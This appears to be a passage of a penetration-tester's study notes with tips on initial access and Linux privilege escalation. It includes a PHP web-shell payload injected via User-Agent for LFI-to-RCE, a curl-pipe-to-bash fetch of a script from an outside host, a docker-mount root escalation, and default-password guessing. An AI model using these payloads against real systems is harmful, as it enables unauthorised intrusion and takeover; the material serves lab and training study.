 ### Initial Access

* Always try to login with default passwords and with using the username as a password. For example, if a username has been identiifed as `parzival` try and login with the password `parzival`
* Sometimes a simple wordlist can be your friend.. Ensure dumb combinations are attempted  like `admin:admin`
* If testing for Shellshock on SMTP then I have found[ this exploit ](https://github.com/3mrgnc3/pentest\_old/blob/master/postfix-shellshock-nc.py)to be the most reliable. It requires a valid email address so ensure you run `VRFY` to enumerate a valid email prior to execution.
* If you can access the Apache logs through LFI and observe the 'User Agent' is viewable, we can potentially specify our user agent to PHP code and execute that on the target machine. [This video from John Hammond](https://www.youtube.com/watch?v=u\_uuk7FWWF4) is a great example.
  * Using this we can potentially turn an LFI into RCE. An example user agent would be the following: `User-Agent: <?php system(\$_GET['c']); ?>`
* Log into the SMTP server to identify the version if it is not returned in the Nmap scan. Identifying Postfix means that multiple exploits from Searchsploit may work: `searchsploit postfix`
* Narrowing down a version number of an application can greatly increase your chances of finding an exploit.&#x20;

### Privilege Escalation - Linux

* If LinPEAS doesn't return anything useful then it is possible you already have the information needed to privilege escalate. Try default passwords, [priv esc with fail2ban](https://grumpygeekwrites.wordpress.com/2021/01/29/privilege-escalation-via-fail2ban/), and other common tricks.
* Don't forget to check for any Kernel exploits.&#x20;
  * `uname -a`
* For privilege escalation with fail2ban, use a netcat shell or modify the permissions of `/etc/shadow`
  * [Amazing Guide on Privilege Escalation with Fail2ban](https://grumpygeekwrites.wordpress.com/2021/01/29/privilege-escalation-via-fail2ban/)
* If there are no writable directories then just pipe LinPEAS (or other tool of choice) directly into bash:
  * `curl 10.10.10.1:8080/linpeas.sh | bash`
  * Run the following command to identify possible priivlege escalation efforts:
    * `which awk perl python ruby gcc cc vi vim nmap find netcat nc wget tftp ftp 2>/dev/null`
  * If you've identified a CronJob that may be exploitable then it may be worth plugging it into [CronGuru](https://crontab.guru/#\*/3\_\*\_\*\_\*\_\*).
  * If spawning a shell, check all files for MySQL credentials. It is likely you will be able to privilege escalate once located.
    * To login, ensure you have a stable shell and type `mysql -u root -p`
  * If you are a member of the 'Docker' group then there are multiple opportunities for privilege escalation.  Below is a list of a few examples:
    1. `docker images`
    2. `docker run -v /:/mnt --rm -it [IMAGE] chroot /mnt sh`
  * If breaking out of a restricted shell, ensure you check the local bin and then GTFOBins for any easy breakouts.
    *   Sometimes you will have to export your path after breaking out of a restricted shell. Use the following command to correct your path:

        ```
        export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
